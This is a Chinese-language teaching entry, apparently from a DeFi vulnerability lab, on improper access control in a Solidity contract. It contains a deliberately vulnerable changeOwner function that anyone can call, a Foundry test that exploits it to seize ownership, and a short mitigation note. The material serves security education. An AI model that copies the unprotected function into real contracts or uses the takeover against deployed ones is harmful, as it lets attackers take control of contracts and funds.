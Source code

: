 # 可见性  
[Visibility.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Visibility.sol)  
**名称：** 不当的访问控制漏洞  
**描述：**  
函数的默认可见性为“公共”。  
如果存在不安全的可见性设置，攻击者可以直接调用智能合约中的敏感函数。  
ownerGame合约具有一个changeOwner函数，旨在更改合约的所有者。  
但是，由于访问控制不当，此函数可公开访问，并且可以由任何外部帐户或合约调用。因此，攻击者可以调用此函数来更改合约的所有权并取得控制权。  
**影响：** 任何人都可以更改合同的所有者。  

**缓解意见：**
使用访问控制修饰器：Solidity提供了修饰器，例如onlyOwner，
可用于限制函数的访问  

**OwnerGame合约：** 
```
contract ownerGame {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    // changeOwner 的可见性是错的，应该加上onlyOwner修饰器
    function changeOwner(address _new) public {
        owner = _new;
    }
}
```

**如何测试：**  
forge test --contracts src/test/Visibility.sol-vvvv  
```
// 此函数测试函数在ownerGameContract合约中的可见性
function testVisibility() public {
    // 创建ownerGameContract合约的新实例
    ownerGameContract = new ownerGame();

    // 记录ownerGameContract合约的当前所有者。
    console.log("Before exploiting, owner of ownerGame:", ownerGameContract.owner());

    // 调用ownerGameContract的changeOwner函数，将所有者更改为msg.sender
    ownerGameContract.changeOwner(msg.sender);

    // 记录ownerGameContract合约的新所有者，现在应该是此函数的发送者。
    console.log("After exploiting, owner of ownerGame:", ownerGameContract.owner());

    // 将记录一条表明漏洞攻击已完成的消息。
    console.log("Exploit completed");
}
``` 
**红框：** 所有者被更改  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6233a47b-90c4-4fff-a73b-fc417962f36b%2FUntitled.png?table=block&id=cfd25398-31cd-4483-966b-76737878afbd&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)